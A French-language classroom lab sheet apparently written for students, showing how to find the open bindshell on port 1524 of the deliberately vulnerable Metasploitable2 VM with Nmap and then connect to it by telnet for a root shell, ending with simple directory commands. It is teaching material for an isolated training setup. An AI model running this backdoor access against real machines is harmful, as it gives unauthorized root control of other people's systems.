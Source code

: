 # Vulnérabilités: Ouverture d'une "backdoor" sur la machine Metaspoitable directement avec le protocole Telnet:

Metasploit est un framework d’exploitation de vulnérabilités

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **metasploit**
* VM Linux vulnérable Metaspoitable

Réseau :

Le réseau doit être en **Accès par pont**
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Mise%20_en_r%C3%A9seau_.md


## Objectif :

✨ Vous devez trouver puis exploiter une vulnérabilité sur la machine vulnérable Metaspoitable avec le framework Metasploit installé sous la VM Kalilinux.

-----

## Prérequis 1 :

Nous allons utiliser la VM Linux vulnérable Metaspoitable
##### Création de la VM Metasploitable2 sous VirtualBox
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Metasploitable2/Creation_VM_Metaspoitable..md

##### Un fois active et sur le réseau déterminer son adresse IP
* Connaitre l'adrese IP de la cible ici la VM2. voir https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_IP/readme.md
-----

## Méthode

Lancer **Metasploit** sous Kalilinux

Tapez le mot de passe de kalilinux

  msf6>

On va rechercher les services et leurs versons avec Nmap.

https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_Ports_%26_applications.md

réponse attendue:
>
> Starting Nmap 7.95 (https://nmap.org) at ....
>
> ....
>Port     STATE    Service    Version
>
> 21/tcp   open  ftp   vsf......
>
> **1524/tcp    open  bindshell   Metasploitable root shell**
>  .....

* **bindshell** est unz technique pour ouvrir un port sur une machine.

On va donc essayer de se connecter directement avec le protocol Telnet sur la machine.

    telnet 192.168.56.xx 1524

* on a donc le protocole telnet
* l'adresse ip de la cible
* le port sur lequel on veut se connecter , ici celui de bindshell le 1524

Résultats:
>
> {*] exec:  telnet 192.168.56.xx 1524
>
>trying 192.168.56.xx
>
>connected to 192.168.56.xx

------

## Test la backdoor

on peux se déplacer , créer un répertoire , ....

    ls

    cd home

    ls

    cd 

    mkdir dirciel

    ls

On peut verifier sur la machine VM Linux vulnérable Metaspoitable , le répertoire dirciel existe.

